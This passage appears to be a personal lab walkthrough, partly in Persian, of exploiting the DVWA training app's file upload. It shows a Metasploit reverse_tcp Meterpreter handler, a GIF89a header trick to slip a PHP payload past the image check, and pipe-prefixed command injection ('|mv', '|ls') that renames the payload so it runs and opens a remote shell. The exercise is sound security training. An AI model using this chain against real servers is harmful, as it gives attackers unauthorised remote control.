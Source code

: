 ```sh
sudo msfconsole
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set LHOST 192.168.18.121
msf6> exploit -j -z
```
	![[Pasted image 20240724201903.png]]
3. Try to upload `exploit.php` and you see doesn't allow for this operation.
4. Now rename PHP Payload to `exploit.php.jpeg`
```sh
cp exploit.php exploit.php.jpeg
```
	![[Pasted image 20240724200502.png]]
4. Upload `exploit.php.jpeg` and you see we cant upload this file yet because File Type also checked in Page Source and this file is not a image(jpeg/png) file.
	1. ![[Pasted image 20240724200644.png]]
5. *Change Type of `exploit.php.jpeg` from `php` to `Image`*
	1. `sudo nano exploit.php.jpeg`
	2. Add below line to Header of File
	3. `GIF89a;`
		1. ![[Pasted image 20240724200827.png]]
	4. این مرحله را میتوان قبل از تغییر پسوند فایل هم انجام داد.
```sh
sudo nano exploit.php.jpeg
"Add below value in file header" => GIF89a;
```
6. Now Upload `exploit.php.jpeg` again, In this Try we can `Upload file Successfully`
	1. ![[Pasted image 20240724200948.png]]
7. *But now we should rename `exploit.php.jpeg` to `exploit.php` to can Executed Payload in DVWA Server. for this Operation =>*
	1. در این لحظه میتوانیم فایل `exploit.php.jpeg` را در مرورگر باز کنیم اما ما نیاز داریم که فایل `exploit.php` را در سرور اجرا کنیم تا Payload ما با موفقیت اجرا شود و بتوانیم دسترسی Meterpreter را در کنسول `msfconsole` بگیریم.
		1. ![[Pasted image 20240724201443.png]]
	2. `DVWA => Command Injection ` Inject below command to *Enter IP Address Field*
		1. `|mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg" "/usr/share/dvwa/hackable/uploads/exploit.php"`
			1. ![[Pasted image 20240724202117.png]]
	3. Now inject below command to see List of files in DVWA server
		1. `|ls /usr/share/dvwa/hackable/uploads`
			1. ![[Pasted image 20240724202225.png]]
			2. ![[Pasted image 20240724202233.png]]
```sh
|mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg" "/usr/share/dvwa/hackable/uploads/exploit.php"
|ls /usr/share/dvwa/hackable/uploads
```
8. *Now Open http://127.0.0.1:42001/hackable/uploads/exploit.php in Browser =>*
	1. Back to `msfconsole` and run `sessions` to see Meterpreter Shell from DVWA Server
		1. ![[Pasted image 20240724202457.png]]
	2. Connect to Session using `msf6> sessions -i 1`
```sh
msf6> sessions
"Now meterpreter Session established and see in here"
msf6> sessions -i 1 #Connect to Session
```
9. Hacking done.
### !